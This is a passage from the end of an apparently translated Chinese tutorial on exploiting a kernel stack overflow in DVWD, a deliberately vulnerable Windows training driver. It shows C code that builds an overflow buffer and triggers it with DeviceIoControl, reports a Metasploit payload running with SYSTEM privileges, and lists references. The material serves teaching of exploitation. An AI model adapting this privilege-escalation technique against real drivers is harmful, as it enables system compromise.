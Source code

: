 ```
  return;
 }

 printf("[~] Retrieve the address of the shellcode and build the buffer...\n");

 // Create an anonymous map
 map = (UCHAR *)CreateUspaceMapping(1);
 // Retrieve the address of the shellcode
 pShellcode = (ULONG_PTR)mapShellcodeSwapTokens;

 // We fill the map with the address of our shellcode (the address is repeated)
 FillMap(map, pShellcode, GlobalInfo.dwAllocationGranularity);

 // We adjust the pointer to the buffer (size = BUFF_SIZE) in such a way that the 
 // last 4 bytes are in an unmapped memory area
 uBuff = map + GlobalInfo.dwAllocationGranularity - (BUFF_SIZE-sizeof(ULONG_PTR));

 // Now, we send our buffer to the driver and trigger the overflow
 hFile = CreateFile(_T("\\\\.\\DVWD"), GENERIC_READ | GENERIC_WRITE, FILE_SHARE_WRITE | FILE_SHARE_READ | FILE_SHARE_DELETE, NULL, OPEN_EXISTING, 0, NULL);
 deviceHandle = hFile;

 if(hFile != INVALID_HANDLE_VALUE)
  ret = DeviceIoControl(hFile, DEVICEIO_DVWD_STACKOVERFLOW, uBuff, BUFF_SIZE, NULL, 0, &dwReturn, NULL);

 // If you get here the vulnerability has not been triggered ...
 printf("[!] Stack overflow has not been triggered, maybe the driver has not been loaded ?\n");
 return;
}

```

7.你机器上的一切都属于我们
--------------

* * *

为了测试,我已放置了从Metasploit中获取（带有计算器calc.exe shellcode）的payload.然而我们可以做其他任何事。。。。

![enter image description here](http://drops.javaweb.org/uploads/images/8eb67396938da3a0548b36babb381cbac45b556b.jpg)

我们的calc.exe带有NT AUTHORITY\SYSTEM 特权,因此这意味着权限成功提升且payload被成功执行

引用
--

(1] CreateFileMapping() function http://msdn.microsoft.com/en-us/library/aa366537(v=vs.85).aspx

(2] MapViewOfFileEx() function http://msdn.microsoft.com/en-us/library/aa366763(v=VS.85).aspx

(3] Remote Debugging using VMWare http://www.catch22.net/tuts/vmware

(4] Local Stack Overflow in Windows Kernel, by Heurs http://www.ghostsinthestack.org/article-29-local-stack-overflow-in-windows-kernel.html

(5] Exploiting Windows Device Drivers, by Piotr Bania http://pb.specialised.info/all/articles/ewdd.pdf